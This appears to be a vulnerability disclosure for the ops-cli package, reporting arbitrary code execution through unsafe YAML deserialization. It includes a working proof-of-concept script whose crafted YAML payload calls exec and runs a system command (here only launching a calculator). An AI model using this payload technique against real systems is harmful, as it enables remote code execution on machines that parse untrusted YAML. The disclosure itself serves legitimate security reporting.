 # Description

`ops-cli` is a wrapper for Terraform, Ansible, Helmfile and SSH for cloud automation , which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip install ops-cli
```

### Run exploit.py
```
import os
#os.system('pip install --upgrade ops-cli')
from ops import git_utils
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('pwn.yml','w+').write(exploit)
git_utils.checkout_repo('Anon-Artist','pwn.yml','Junk')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
